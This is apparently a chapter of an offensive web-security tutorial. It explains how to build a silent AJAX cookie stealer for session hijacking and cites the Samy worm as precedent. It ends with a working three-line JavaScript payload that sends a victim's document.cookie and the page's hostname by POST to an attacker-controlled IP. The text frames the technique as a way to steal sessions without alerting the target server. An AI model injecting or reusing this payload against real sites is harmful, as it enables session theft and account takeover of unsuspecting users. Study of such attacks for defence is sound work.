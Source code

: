 <iframe width="560" height="315" src="https://www.youtube.com/embed/PtqRHgQAgUU" frameborder="0" allowfullscreen></iframe>

# AJAX - The Session Hijacker's Holy Grail

![Holy grail](http://www.intriguing.com/mp/_pictures/grail/large/HolyGrail051.jpg)

So far we've focused on stealing sessions by redirecting users to a malicious web server that logs their session cookies. Although this approach is simple and effective, it is subject to the limitations that we previously discussed. The most important of these limitations is the fact that redirect based cookie stealers always cause abnormal web traffic to and from the target server. The solution to this is to use _AJAX_.


> AJAX stands for Asynchronous JavaScript and XML. In a nutshell, it is the use of the XMLHttpRequest object to communicate with server-side scripts. It can send as well as receive information in a variety of formats, including JSON, XML, HTML, and even text files. AJAX’s most appealing characteristic, however, is its "asynchronous" nature, which means it can do all of this without having to refresh the page. This lets you update portions of a page based upon user events.  
> The two features in question are that you can:
>
> *	Make requests to the server without reloading the page
> * Receive and work with data from the server
>
> -- <cite>[Mozilla Developer Network](https://developer.mozilla.org/en-US/docs/AJAX/Getting_Started)</cite>

AJAX allows us to send a request from the victim's web browser to our cookie stealer without refreshing the page and, most importanty, without sending additional HTTP traffic to the target server. The user loads the infected page and has their cookies stolen silently in the background. The infamous [Sammy Worm](http://motherboard.vice.com/read/the-myspace-worm-that-changed-the-internet-forever) incorporated this technique into its source code.

## Building an AJAX cookie stealer

Let's start out by writing the Javascript code for our AJAX cookie stealer. Most modern websites use the [JQuery](https://jquery.com/) library for AJAX calls. This is because JQuery provides an extremely simple interface for making AJAX calls. With that said, we're not building a web application. We're exploiting one. Using JQuery could require us to inject additional code that would append a script tag to the HEAD of the target web page's DOM. The code to do this takes up additional space, and space is precious. It could be argued that since JQuery [is used by roughly 70% of the market](http://w3techs.com/technologies/details/js-jquery/all/all), we can assume that most websites already provide native JQuery support. Regardless, we want to write a general purpose cookie stealer that works universally across Javascript enabled websites.

The solution is to use Javascript's builtin [XMLHTTPRequest](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest) api. It only takes three lines of code to write an AJAX based cookie stealer using XMLHTTPRequest.

{% highlight javascript %}

var xmlhttp = new XMLHttpRequest();
xmlhttp.open("POST", "http://192.168.1.191/update", true);
xmlhttp.send(JSON.stringify({hostname: window.location.host, session:document.cookie}));

{% endhighlight %}
